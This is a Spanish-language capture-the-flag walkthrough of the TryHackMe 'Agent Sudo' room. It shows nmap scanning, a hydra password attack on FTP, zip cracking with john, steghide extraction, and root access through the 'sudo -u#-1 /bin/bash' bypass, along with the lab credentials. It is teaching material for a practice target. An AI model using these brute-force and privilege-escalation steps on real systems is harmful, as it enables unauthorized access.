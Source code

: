 # Resolución de la Máquina: Agent Sudo

- **Plataforma:** TryHackMe
- **Dificultad:** Fácil
- **Fecha de resolución:** 16/06/2025
- **Sistema Operativo:** Linux


## Descripción

**Agent Sudo** es una máquina de nivel fácil diseñada para introducir a los usuarios en conceptos fundamentales de pruebas de penetración web y escalada de privilegios en sistemas Linux. Es ideal para principiantes que están dando sus primeros pasos en entornos de CTF.

Durante la resolución, el atacante debe identificar una vulnerabilidad web común que permite obtener acceso inicial al sistema. Posteriormente, se explora una sencilla pero efectiva técnica de escalada de privilegios basada en archivos SUID mal configurados.

Esta máquina es útil para practicar:

> Enumeración web y de servicios básicos

> Comprensión de inyecciones simples o ejecución remota de comandos

> Técnicas básicas de post-explotación

> Identificación de binarios con permisos indebidos en sistemas Linux  


## Enumeración

### Escaneo con Nmap

```bash
$ nmap -p- --open -sS -sV -sC -T4 -n -Pn 10.10.220.41
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-16 12:03 EDT
Nmap scan report for 10.10.220.41
Host is up (0.060s latency).
Not shown: 63608 closed tcp ports (reset), 1924 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.33 seconds
```
## Intrusión
Accediendo mediante navegador al http encontraremos el siguiente mensaje:
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```
Para continuar es importante que entendamos el concepto de User-Agent.
El User-Agent es una cabecera HTTP que los clientes (como navegadores web, herramientas como curl, bots, etc.) envían al servidor cada vez que hacen una petición, este permite que los servidores web adapten su comportamiento en función del cliente que se conecta.

Mediante curl podremos enviar User-Agents que creamos que pueden ser propensos a existir en la web (-A "x"), con -L habilitaremos la redirección, para que en caso de que el User-Agent exista nos pueda redirigir hacia el.
`curl -A "C" -L http://10.10.156.39/`
**También podriamos haber utilizado la función responder de Burpsuite**

## Obtención de acceso
Una vez obtenido el usuario "chris" procederemos a lanzar un ataque de diccionario con hydra
```bash
$ hydra -l chris -P /home/kali/Downloads/rockyou.txt 10.10.156.39 ftp      
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-16 12:42:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.156.39:21/
[21][ftp] host: 10.10.156.39   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-16 12:43:31
```
Una vez conectados al FTP nos descargaremos todo el contenido con el comando get.

Utilizaremos binwalk, este escanea el archivo binario buscando firmas de archivos conocidas (por ejemplo, firmas de ZIP, JPEG, gzip, squashfs, etc.) usando una base de datos interna.
```bash
$ binwalk cutie.png      

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Vemos que este ha detactado contenido oculto en la imágen, por lo que procederemos a extrarlo
```bash
binwalk -e cutie.png 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
869           0x365           Zlib compressed data, best compression

WARNING: Extractor.execute failed to run external extractor 'jar xvf '%e'': [Errno 2] No such file or directory: 'jar', 'jar xvf '%e'' might not be installed correctly
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt

WARNING: One or more files failed to extract: either no utility was found or it's unimplemented
```

Nos encontraremos con un archivo zip protegido con contraseña, ahora utilizaremos zip2john, su función es extraer hashes de archivos zip.

```bash
─$ zip2john 8702.zip > hash.txt

─$ john --wordlist=/home/kali/Downloads/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:00 DONE (2025-06-16 13:01) 1.162g/s 28576p/s 28576c/s 28576C/s merlina..280690
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Veremos que obtenemos la contraseña alien, una vez descomprimido el zip nos encontraremos un txt con la siguiente información: QXJlYTUx
Al pasarlo por la web de cyberchef veremos que esta en base64 y lo decodifica como: Area51

A continuación utilizaremos steghide, una herramienta de esteganografía, que permite ocultar datos dentro de archivos multimedia (como imágenes JPEG, BMP o archivos WAV) y extraerlos posteriormente.
```bash
-$ steghide extract -sf  cute-alien.jpg -p Area51
wrote extracted data to "message.txt".
```
**-sf hace referencia al stego file y -p a la contraseña**

Obtendremos las siguientes credenciales: james - hackerrules!
Accederemos mediante ssh con estas credenciales.

## Escalada de privilegios
Realizando un sudo -l podemos ver que podemos ejecutar /bin/bash como sudo.
Una búsqueda en google nos muestra como podemos aprovechar sudo -u#-1 /bin/bash, ejecutando `sudo -u#-1 /bin/bash` podremos acceder al usuario root.
